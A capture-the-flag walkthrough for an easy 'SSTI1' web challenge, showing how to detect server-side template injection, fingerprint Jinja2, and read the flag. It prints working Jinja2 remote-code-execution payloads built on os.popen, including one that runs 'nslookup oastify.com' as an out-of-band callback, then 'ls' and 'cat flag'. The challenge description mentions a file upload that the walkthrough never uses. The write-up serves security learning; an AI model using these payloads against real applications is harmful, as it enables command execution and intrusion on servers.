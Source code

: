 **Challenge:** SSTI1 

**Level:** Easy

**Challenge Author:** Venax

### Description: 

A developer has added profile picture upload functionality to a website. 
However, the implementation is flawed, and it presents an opportunity for you. 
Your mission, should you choose to accept it, is to navigate to the provided 
web page and locate the file upload area. Your ultimate goal is to find the hidden 
flag located in the /root directory.

### Step-by-Step Walkthrough:
As usual, our first hint comes from the title of the challenge. SSTI stands for Server Side Template Injection. So we can expect a vulnerability in the submission form somehow.
The attacker tests the identified input field by injecting template syntax specific to the template engine in use. Different web frameworks use different template engines (e.g., Jinja2 for Python, Twig for PHP, or FreeMarker for Java).
In most cases, the input ```‘${{<%[%'"}}%\.’```, can be utilized to detect a vulnerability. If it errors out, we know we're on the right track

Reviewing this [site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) we can run through some test injections

Our injection ```{{7\*7}}``` returns 49, so that seems to work. Then, running ```{{7\*'7'}}``` returns 7 7s, which is what we'd expect. So we can continue with either Jinja2 or Twig.

The page then directs us to [Template Engines Injection 101](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

The last link I shared allows you to fingerprint everything, making it an extremely valuable tool. Someone probably already put it in a script of some kind, but to understand the process, the page is extremely useful (if a bit difficult to follow since there is an extreme lack of copy capability!)

I can start my search for Jinja2 (just for fun, I tried the Twig script, which broke!), which grabs me the injection template 3.11: 

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('nslookup oastify.com').read()}}
```

On its own, it provides a blank page. I'm not exactly certain why that is, there might be a firewall blocking egress from the server, but the important part of that script is the "nslookup oastify.com". This is where we can input commands. For this next part, use the following, note where I inserted the "ls" command

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

We can see 4 files here, but the important one is titled "flag". Let's input one more command!

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
